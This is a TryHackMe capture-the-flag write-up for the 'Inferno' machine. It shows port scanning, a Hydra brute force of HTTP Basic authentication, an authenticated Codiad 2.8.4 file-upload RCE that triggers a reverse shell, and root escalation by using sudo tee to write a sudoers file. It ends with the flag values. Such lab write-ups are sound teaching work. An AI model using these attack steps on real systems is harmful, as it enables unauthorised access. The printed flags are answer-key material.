









# Inferno — TryHackMe Writeup

**Target:** Inferno  
**Platform:** TryHackMe  
**Difficulty:** Medium  
**Category:** Web Exploitation, HTTP Basic Authentication, Codiad RCE, Reverse Shell, Tee Privilege Escalation

---

## Recon

I started by scanning the target for open ports and enumerating the available services using RustScan.

```bash
rustscan -b 500 -a TARGET_IP
```

The RustScan results showed many open ports, so I selected several interesting ports for further enumeration with Nmap.

```bash
nmap -sC -sV -T4 -p80,443,8081,8088 TARGET_IP
```



The web service was running on port 80. Before manually checking the website, I started FFUF in the background to perform directory fuzzing.

```bash
ffuf -w ~/wordlists/dirbuster/directory-list-2.3-small.txt -u http://TARGET_IP/FUZZ
```

The homepage only displayed an image of a painting along with some text that appeared to be a quote.



I checked the page source, but there was nothing interesting.

However, FFUF discovered the following endpoint:

```text
inferno                 [Status: 401, Size: 460, Words: 42, Lines: 15, Duration: 80ms]
```

After checking the endpoint, I found that it was protected by HTTP authentication.



---

## HTTP Basic Authentication

At this point, I decided to test brute force against the HTTP authentication using Hydra.

I used `admin` as the username because it is a very common username, and there was no harm in testing it, especially since the previous reconnaissance had not revealed anything useful that suggested another username.

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt TARGET_IP http-get /inferno
```



Hydra successfully found a valid password.

After authenticating through HTTP Basic Authentication, I was redirected to a Codiad login form.

I tried the same credentials on the Codiad login form, and they worked successfully.



---

## Codiad Enumeration

After logging in and looking around the Codiad dashboard, I did not find anything immediately interesting.

I decided to search for known vulnerabilities affecting the installed Codiad version using SearchSploit.



The SearchSploit results revealed the following exploit:

```text
# Exploit Title: Codiad 2.8.4 - Remote Code Execution (Authenticated) (4)
# Author: P4p4_M4n3
# Vendor Homepage: http://codiad.com/
# Software Links : https://github.com/Codiad/Codiad/releases
# Type:  WebApp
```

The Proof of Concept described the following steps:

```text
1- login on codiad

2- go to themes/default/filemanager/images/codiad/manifest/files/codiad/example/INF/" directory

3- right click and select upload file

4- click on "Drag file or Click Here To Upload" and select your reverse_shell file
```

The exploit then explains that after uploading the file, it should appear in the `INF` directory. By right-clicking the file and selecting delete, the full path of the uploaded file can be obtained.

The example path provided by the exploit was:

```text
/var/www/html/codiad/themes/default/filemanager/images/codiad/manifest/files/codiad/example/INF/shell.php
```

The original exploit then suggests triggering the uploaded file using `curl`:

```text
1 - nc -lnvp 1234
2 - curl http://target_ip/codiad/themes/default/filemanager/images/codiad/manifest/files/codiad/example/INF/shell.php -u "admin:P@ssw0rd"
```

I decided to use this exploit, but instead of using `curl` to trigger the uploaded shell, I used the browser and directly accessed the exact path.

The path I used to trigger the shell was:

```text
http://TARGET_IP/inferno/themes/default/filemanager/images/codiad/manifest/files/codiad/example/INF/shell2.php
```



---

## Getting a Shell

After obtaining the shell, I noticed that the session was repeatedly being terminated, regardless of whether I used the current reverse shell or tried other reverse shell methods.

During enumeration, I found a script responsible for killing sessions:

```text
/var/www/html/machine_services1320.sh
```

Its contents were roughly:

```bash
pkill bash &
q nc -nvlp 21 &
# continues with nc -nvlp commands up to around port 60k
```

Based on this behavior, I decided to use a `sh` reverse shell instead of `bash`.

This worked, and the session remained stable without being killed.

---

## User Enumeration

While enumerating the system, I found a file named `.download.bat` inside Dante's Downloads directory:

```text
/home/dante/Downloads/.download.bat
```

The file contained hexadecimal data:

```text
c2 ab 4f 72 20 73 65 e2 80 99 20 74 75 20 71 75 65 6c 20 56 69 72 67 69 6c 69 6f 20 65 20 71 75 65 6c 6c 61 20 66 6f 6e 74 65 0a 63 68 65 20 73 70 61 6e 64 69 20 64 69 20 70 61 72 6c 61 72 20 73 c3 ac 20 6c 61 72 67 6f 20 66 69 75 6d 65 3f c2 bb 2c 0a 72 69 73 70 75 6f 73 e2 80 99 69 6f 20 6c 75 69 20 63 6f 6e 20 76 65 72 67 6f 67 6e 6f 73 61 20 66 72 6f 6e 74 65 2e 0a 0a c2 ab 4f 20 64 65 20 6c 69 20 61 6c 74 72 69 20 70 6f 65 74 69 20 6f 6e 6f 72 65 20 65 20 6c 75 6d 65 2c 0a 76 61 67 6c 69 61 6d 69 20 e2 80 99 6c 20 6c 75 6e 67 6f 20 73 74 75 64 69 6f 20 65 20 e2 80 99 6c 20 67 72 61 6e 64 65 20 61 6d 6f 72 65 0a 63 68 65 20 6d e2 80 99 68 61 20 66 61 74 74 6f 20 63 65 72 63 61 72 20 6c 6f 20 74 75 6f 20 76 6f 6c 75 6d 65 2e 0a 0a 54 75 20 73 65 e2 80 99 20 6c 6f 20 6d 69 6f 20 6d 61 65 73 74 72 6f 20 65 20 e2 80 99 6c 20 6d 69 6f 20 61 75 74 6f 72 65 2c 0a 74 75 20 73 65 e2 80 99 20 73 6f 6c 6f 20 63 6f 6c 75 69 20 64 61 20 63 75 e2 80 99 20 69 6f 20 74 6f 6c 73 69 0a 6c 6f 20 62 65 6c 6c 6f 20 73 74 69 6c 6f 20 63 68 65 20 6d e2 80 99 68 61 20 66 61 74 74 6f 20 6f 6e 6f 72 65 2e 0a 0a 56 65 64 69 20 6c 61 20 62 65 73 74 69 61 20 70 65 72 20 63 75 e2 80 99 20 69 6f 20 6d 69 20 76 6f 6c 73 69 3b 0a 61 69 75 74 61 6d 69 20 64 61 20 6c 65 69 2c 20 66 61 6d 6f 73 6f 20 73 61 67 67 69 6f 2c 0a 63 68 e2 80 99 65 6c 6c 61 20 6d 69 20 66 61 20 74 72 65 6d 61 72 20 6c 65 20 76 65 6e 65 20 65 20 69 20 70 6f 6c 73 69 c2 bb 2e 0a 0a 64 61 6e 74 65 3a 56 31 72 67 31 6c 31 30 68 33 6c 70 6d 33 0a
```

After decoding the hexadecimal data, I obtained:

```text
«Or se’ tu quel Virgilio e quella fonte
che spandi di parlar sì largo fiume?»,
rispuos’io lui con vergognosa fronte.

«O de li altri poeti onore e lume,
vagliami ’l lungo studio e ’l grande amore
che m’ha fatto cercar lo tuo volume.

Tu se’ ’l mio maestro e ’l mio autore,
tu se’ solo colui da cu’ io tolsi
lo bello stilo che m’ha fatto onore.

Vedi la bestia per cu’ io mi volsi;
aiutami da lei, famoso saggio,
ch’ella mi fa tremar le vene e i polsi».

dante:V1rg1l10h3lpm3
```

The decoded data contained what appeared to be Dante's SSH credentials:

```text
Username: dante
Password: V1rg1l10h3lpm3
```

I successfully used these credentials to log in as Dante over SSH.

```bash
ssh dante@TARGET_IP /bin/sh
```



---

## Privilege Escalation — Dante → Root

After logging in as Dante, I immediately checked the available sudo permissions.

```bash
sudo -l
```

Dante was allowed to run `/usr/bin/tee` as root without a password.

I used `tee` to create a sudoers entry that granted Dante full sudo privileges:

```bash
printf 'dante ALL=(ALL:ALL) NOPASSWD: ALL\n' | sudo /usr/bin/tee /etc/sudoers.d/dante
```

I then checked the sudo permissions again:

```bash
sudo -l
```

The output showed:

```text
(ALL : ALL) NOPASSWD: ALL
    (root) NOPASSWD: /usr/bin/tee
```

Dante now had full sudo privileges, so I could simply spawn a root shell:

```bash
sudo /bin/sh
```



---

## Flags

### Local

```text
77f6f3c544ec0811e2d1243e2e0d1835
```

### Proof

```text
f332678ed0d0767d7434b8516a7c6144
```

